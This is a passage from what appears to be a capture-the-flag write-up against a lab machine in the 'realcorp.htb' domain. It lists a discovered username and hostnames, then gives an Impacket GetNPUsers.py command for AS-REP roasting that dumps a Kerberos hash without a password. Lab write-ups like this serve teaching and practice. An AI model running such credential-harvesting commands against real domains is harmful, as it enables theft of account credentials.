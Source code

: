 
We get a username and two domain names !

```
j.nakazawa@realcorp.htb
srv01.realcorp.htb
```

Let's add them  to `/etc/hosts`

<img src="realcorp.png">
<img src="srv.png">


Nothing interesting, let's move on


## <p style="color:Green">Kerberos </p> 

We have a valid username and a domain! let's try to dump his KRBASREP5 hash

```
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py realcorp.htb/j.nakazawa -no-pass
```

<img src="kerb.png">

